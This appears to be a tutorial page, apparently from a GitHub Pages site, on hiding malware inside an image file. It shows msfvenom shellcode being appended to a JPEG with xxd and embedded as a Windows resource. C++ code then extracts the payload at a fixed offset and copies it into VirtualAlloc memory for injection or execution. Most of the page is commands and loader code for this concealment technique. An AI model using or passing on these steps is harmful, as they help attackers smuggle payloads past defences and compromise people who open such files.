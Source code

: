 ```yaml
---
layout: default
---
```


# Hiding malware within an Image

The basic idea is to hide the malware inside the concatenated image file. The malware can be hidden in the binary data of the image file. This can be done by adding the malware code to the end of the image file, after the image data. When the concatenated image file is downloaded and opened, the image will display normally, but the malware code will be executed in the background.

1.	Download a random image and find the length of byte. We can `xxd` for this purpose.

```bash
xxd -i saturn.jpg
```

![Saturn.jpg with XXD](/docs/resources/malware/saturn-xxd.jpg)

As shown above, the command precisely display the size of the image in bytes. Take a note.

2.	Create a binary with msfvenom and find its size. For demonstration purposes, lets use a message box binary.

```bash
xxd -i msgbox64.bin
```

![msgbox](/docs/resources/malware/msgbox-size.png)

Once we have both the file length, concatenate the shellcode with the image file.

```bash
xxd -p msgbox64.bin | tr -d "\n" >> saturn.jpg
```

3.	Create the resource file for the image.

```cpp
#include "resources.h"

IMAGE RCDATA "saturn.jpg"
```

Similarly the` resource.h` file

```cpp
#define IMAGE 100
```

4.	Final code for reading the malicious image file for the resource would be:

```cpp
// Extract payload from resources section
res = FindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
resHandle = LoadResource(NULL, res);
image = (char *) LockResource(resHandle);
image_len = SizeofResource(NULL, res);
```

The `image` character pointer points to first byte of the malicios image, and `image_len` the corresponding length of the image.

5.	Extract the shellcode

The `end` character pointer would point to the first byte of binary.

We know already made of note of image length as well as the shellcode length. We can find the corresponding offset that would point to the first byte of the shellcode.

```cpp
offset = image + 2653; 
memcpy(p0,offset,336);

exec_mem = VirtualAlloc(0, 336, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(exec_mem, p0, 336);
```

We then use the `memcpy` command to copy the shellcode from the image to another location in memory `p0`. Using `VirtualAlloc` shellcode size memory is allocated. Then `RTLMoveMemory` function is used to copy the contents from `p0` memory block to a `exec_mem` memory block. At this point the code could be used to inject into a process or execute as a child process.





